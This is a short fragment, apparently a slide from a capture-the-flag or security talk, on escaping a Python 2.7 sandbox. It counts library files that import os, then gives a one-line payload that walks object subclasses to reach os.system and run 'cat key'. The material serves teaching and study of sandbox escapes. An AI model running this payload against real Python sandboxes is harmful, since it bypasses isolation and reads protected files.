

#
/usr/lib/python2.7
$ ack "import os"  *.py | wc -l
      92
Eventually get something like:
().__class__.__base__.__subclasses__()[53].__init__.func_globals["linecache"].__dict__["os"].system(‘cat key’)